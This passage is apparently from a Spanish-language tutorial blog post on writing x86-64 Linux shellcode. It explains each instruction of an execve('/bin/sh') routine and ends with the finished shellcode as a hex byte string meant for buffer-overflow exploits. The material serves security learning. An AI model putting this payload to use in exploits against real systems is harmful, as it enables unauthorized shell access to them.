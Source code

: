 ```
```
Explicare directamente lo que esta dentro de ```_start``` por que lo demas ya saben que hace

- ```xor rdx, rdx``` El registo ```rdx``` haciendo una operacion XORing consigo mismo, esto es para que el registro este limpio antes de usarlo, es buena practica nomas, si se le quita no pasa nada

- ```push rdx``` Metemos un null bye al stack para indicar el final de la cadena que se le pasara como argumento a execve

- ```mov rax, 0x68732f2f6e69622f``` Copiamos /bin/sh al registro rax (la cadena esta en hex)

- ```push rax``` Metemos ```rax``` al stack para que pueda ser accedida por el ```rsp```

- ```mov rdi, rsp``` Copiamos la direccion de /bin/sh en ```rdi```, la cual sera el primer argumento de execve, en ese momento el ```rsp``` apunta a la direccion de /bin/sh

- ```push rdx``` Metemos otro byte nulo al stack

- ```push rdi``` Metemos la direccion de /bin/sh en el stack

- ```mov rsi, rsp``` Copiamos la direccion del ```rsp``` en ```rsi```, esto funcionara como segundo argumento de execve, que representa el entorno del programa que se ejecutara

- ```xor rax, rax``` Lo mismo que el primer ```xor```

- ```mov al, 0x3b``` Copiamos el valor 0x3b que representa el numero de la syscall, al registro ```al``` que funciona como un byte inferior de ```rax```, y por ultimo se ejecuta la syscall

Si volvemos a hacer todo el tramite de compilar y enlazar, ya tendremos nuestro ejetutable que nos da una shell, si vemos la shellcode en hex, todo esta perfecto:

![](/assets/img/shellcode/3.png)

Y si ejecutamos, nos da una shell:

![](/assets/img/shellcode/4.png)

Y listo, tenemos otra shellcode:

```
\x48\x31\xd2\x52\x48\xb8\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x48\x31\xc0\xb0\x3b\x0f\x05
```

Y como ultimo, estos dos codigos que te explique, no es la unica forma de llamar a write o execve, ya depende del creador y del contexto donde se usa, y supongo que te ha pasado que cuando haces un BoF, una shellcode te sirve y otra no, aun que tengas todo tu exploit bien.
